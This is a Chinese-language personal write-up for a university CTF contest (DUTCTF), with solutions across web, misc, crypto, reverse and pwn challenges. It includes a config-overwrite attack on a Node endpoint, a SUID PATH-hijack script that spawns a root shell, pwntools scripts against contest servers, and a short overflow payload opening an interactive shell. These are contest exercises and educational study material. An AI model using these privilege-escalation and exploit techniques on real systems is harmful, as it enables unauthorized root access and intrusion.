




---

title: "DUTCTF个人题解"
description: "校赛CTF记录"
pubDatetime: 2025-05-07
tags: ["CTF", "wp"]

---

# che1sy's wp

## Web

### Real_E2_J5!

观察源文件，有两个接口：

```/valitate```接口
```js
app.post('/validate', (req, res) => {
    const input = req.body;
    if (input.key && input.value && input.key === input.value) {
        // 这里直接将用户传的整个 JSON 合并到 config 上
        config = Object.assign(config, input)
        return res.send('Validation passed');
    }
    res.status(400).send('Validation failed');
});
```

```/admin```接口
```js
app.get('/admin', (req, res) => {
    if (req.query.secret === config.adminSecret) {
        res.send(readFlag());
    } else {
        res.status(403).send('Forbidden');
    }
});
```

思路：

默认 ```config.adminSecret``` 是随机生成、我们不知道的。
通过 ```/validate```，当 ```key === value``` 时，服务器会把我们整个 ```JSON payload``` 合并到 ```config```，从而 任意写入 ```config.adminSecret```。
一旦我们把 ```config.adminSecret``` 改成自己知道的字符串，就可以直接 ```GET /admin?secret=你选的字符串``` 拿到 flag。

POST传参：


相应直接get请求即可得flag。

## Misc

### 特定低手

将图片放大，天桥上有模糊字样，经查询后可得知为：明治通路丰岛区目白2丁目，在Google街景查询，经搜查和确认得到结果如图。

由图片内容或查询得知邮政编码为1710032，按题目要求编码即得flag。


### Signin

W栅栏密码，5层，放到在线网站一试就出来了。

### Terminal

> 拿到题目想了好久，在文件夹里找但是没有头绪，最后还是问AI才有了思路。

先运行`find / -perm -4000 -type f 2>/dev/null`，找有SUID权限的文件，看是否要提权。发现有提权入口，随后依次执行`ls -l /tmp/whatisthis`、`file /tmp/whatisthis`、`/tmp/whatisthis`，观察输出结果

执行`id whoami`，发现自己仍然是test用户。
执行`strings /tmp/whatisthis`，查看是否调用了某些命令，是否可以命令注入。

发现这个 `/tmp/whatisthis` 是一个 **SUID + root 权限的 ELF 可执行文件**，并且：

+ 执行它时会启动 sh（即 shell）；
+ 它使用了 setuid 和 setgid；
+ 从 strings 输出来看，它使用了 system() 调用来执行命令；
+ 文件名来源为 whatisthis.c（说明可能是编译自某个源代码）；
+ 所以它大概率是用 C 写的一个简单提权工具：它运行后就直接调用了一个 shell。
可以使用 **PATH劫持** 让其运行我们自己写的ps脚本，从而获得真的 root shell。

```bash
# 依次运行以下语句
cat << 'EOF' > ~/ps
#!/bin/sh
# 这里利用当前的 EUID(0)启动一个交互式 shell
/bin/sh -p
EOF
chmod +x ~/ps
export PATH="$HOME:$PATH"
# 验证一下
which ps
# 应该输出 /home/test/ps 而不是 /bin/ps
/tmp/whatisthis
# 此时会看到一个新的#提示符

whoami   # 应该显示 root
id       # 此时显示 uid=0(root) gid=0(root) groups=0(root),1000(test)
cat /root/flag   

```
运行`cat /root/flag`后发现是含`flag.txt`的乱码，发现是被压缩成 flag.zip 了，尝试解压，发现`unzip`用不了，并且系统里没有装 python ，于是选择把这个 ZIP 包以 Base64 编码导出，然后到本地或其它环境里解码并解压。
运行
```bash
base64 /root/flag > /home/test/flag.b64
cat /home/test/flag.b64
```
复制 Base64 编码，到本地解压即可。


## Crypto

### stream&block

上脚本：
```python
from pwn import *
import binascii

# —— 配置远程或本地 ——
# 如果连接远程服务，将 USE_REMOTE 设为 True，并填写 HOST, PORT
# 本地调试时可设为 False，并填写 LOCAL_CMD 为本地可执行脚本命令
USE_REMOTE = True
HOST = "210.30.97.133"
PORT = 10117
LOCAL_CMD = ["python3", "challenge.py"]

# 启动交互：根据 USE_REMOTE 自动选择 remote 或 process
def start():
    if USE_REMOTE:
        return remote(HOST, PORT)
    else:
        return process(LOCAL_CMD)

# 请求加密接口，返回解码后的密文字节
def encrypt(p, data_bytes):
    p.recvuntil(b"> ")
    p.sendline(b"1")
    p.recvuntil(b"input your plaintext(hex) > ")
    p.sendline(data_bytes.hex().encode())
    p.recvuntil(b"encrypted ciphertext: ")
    chex = p.recvline().strip()
    return bytes.fromhex(chex.decode())

# 请求 verify 接口，提交魔法文本，返回所有输出
def verify(p, magic_bytes):
    p.recvuntil(b"> ")
    p.sendline(b"3")
    p.recvuntil(b"input your text(hex) > ")
    p.sendline(magic_bytes.hex().encode())
    return p.recvall(timeout=5)

# 探测满足 XOR(K[i])==0 的子密钥下标
def find_magic_index(p):
    log.info("开始探测满足 XOR(K[i])==0 的下标 i …")
    for i in range(256):
        blk = bytes([0]*15 + [i])
        c = encrypt(p, blk)
        rC = 0
        for b in c:
            rC ^= b
        if rC == i:
            log.success(f"找到目标下标 i0 = {i}")
            return i
    log.error("未找到满足条件的 i！")
    return None

# 主逻辑
def main():
    p = start()
    # 跳过欢迎信息
    p.recvuntil(b"3. verify text\n")

    i0 = find_magic_index(p)
    if i0 is None:
        return

    # 构造魔法文本（4 × 16 字节 = 64 字节）
    P0 = bytes([0]*15 + [i0])
    P_magic = P0 * 4

    # 提交并打印 flag
    out = verify(p, P_magic)
    print(out.decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

运行脚本：


### Signin


给定：

- 密文 $c$
- 公钥 $e = 65537$
- 模数 $n$ 是一个大素数

#### 分析

- 通常 RSA 的 $n = p \times q$，但题中指出只用一个大素数就能解出，说明：
  - **$n$ 本身是素数**

#### 解题

1. 因为 $n$ 是素数，所以欧拉函数 $\varphi(n) = n - 1$
2. 私钥指数 $d = e^{-1} \mod (n - 1)$
3. 明文 $m = c^d \mod n$
4. 将 $m$ 转为字节，再解码为 ASCII 字符串

按步骤计算可得：
```ini
m = 5235497…13575^d mod n
```
转换后得到明文：DUTCTF{N3veR_U5e_0n1y_On3_Pr1me!}

### whereisp&q

我们可以利用给定的两个二次型表示
```ini
N = a² + e·b²  = c² + e·d²
```
在虚二次环 ℤ[√(−e)] 中取两因式
```r
α = a + b√(−e),   β = c + d√(−e)
```
则有则有 α·β̅ = (a·c + e·b·d) + (a·d − b·c)√(−e)，其实部 S = a·c + e·b·d 满足
```ini
g = gcd(N, S)
```
就是 N 的一个非平凡因子。具体步骤如下：
计算

$$
\quad e = \frac{N - a^2}{b^2}
$$

验证它是 128 位素数。

---

求因子：

$$
p = \gcd(N, a \cdot c + e \cdot b \cdot d), \quad q = \frac{N}{p}
$$

---

构造私钥：

$$
\varphi(N) = (p - 1)(q - 1), \quad d_{\text{priv}} = e^{-1} \mod \varphi(N)
$$

---

解密：

$$
m = (\text{enc\_flag})^{d_{\text{priv}}} \mod N
$$

将所得大整数转换回字节，再解码为 ASCII。
按步骤计算可得：DUTCTF{51ca1a47-b421-4723-b779-0e8521f455ae}

### Xxxxxxxor

给出了两段信息：
```
102397925929126
1974344364e02611526152956547502d56946f194d3405c0690c593000c37019563506c06f47506302db
```
题目是异或，明显需要用异或做题
```python
# 将 key 变为大端 8 字节（64 位）
key_bytes = struct.pack(">Q", 102397925929126)
```
结果为
```python
b'\x00\x00]!\x00\x000\xa6'
```
此处有两个前导零，因此我们尝试去掉前导的 2 个字节，仅使用后 6 个字节作为 key：
```python
key6 = key_bytes[2:]  # b']!\x00\x000\xa6'
```
使用上述 6 字节作为密钥，进行重复异或：
```python
pt = bytes(ct[i] ^ key6[i % len(key6)] for i in range(len(ct)))
```
最终得到明文：
```python
b'DUTCTF{02ab38f0-f228-45f4-900e-8656f2f0c2}'
```

## Reverse

### Signin

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[8]; // [rsp+0h] [rbp-80h] BYREF
  __int64 v5; // [rsp+8h] [rbp-78h]
  __int64 v6; // [rsp+10h] [rbp-70h]
  __int64 v7; // [rsp+18h] [rbp-68h]
  __int64 v8; // [rsp+20h] [rbp-60h]
  __int64 v9; // [rsp+28h] [rbp-58h]
  __int64 v10; // [rsp+30h] [rbp-50h]
  __int64 v11; // [rsp+38h] [rbp-48h]
  char s1[64]; // [rsp+40h] [rbp-40h] BYREF

  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  *(_DWORD *)&s[strlen(s)] = 5526852;
  strcpy(&s[strlen(s)], "CTF{");
  *(_DWORD *)&s[strlen(s)] = 7746418;
  strcpy(&s[strlen(s)], "3R53_");
  *(_DWORD *)&s[strlen(s)] = 6235185;
  strcpy(&s[strlen(s)], "\\/");
  strcpy(&s[strlen(s)], "3ry_");
  strcpy(&s[strlen(s)], "f(_)");
  strcpy(&s[strlen(s)], "n&ea");
  *(_DWORD *)&s[strlen(s)] = 2193717;
  *(_WORD *)&s[strlen(s)] = 125;
  printf("Input the flag: ");
  fgets(s1, 64, _bss_start);
  s1[strcspn(s1, "\n")] = 0;
  if ( !strcmp(s1, s) )
    puts("Correct!");
  else
    puts("Wrong!");
  return 0;
}
```
直接按步骤将字符串拼接起来即可。`DUTCTF{r3v3R53_1$_\/3ry_f(_)n&ea5y!}`

## Pwn

### minesweeper

构造：
```python
from pwn import *

context (os = 'linux',arch = 'amd64' , log_level = 'debug')

p = remote('210.30.97.133',10152) # 连接端口

p.sendline('3')
p.sendline('3')
p.sendline('3')
payload1 = b'a'*12 + b'\x46'
p.send(payload1)

p.interactive()
```
随后`ls`，`cat flag`即可。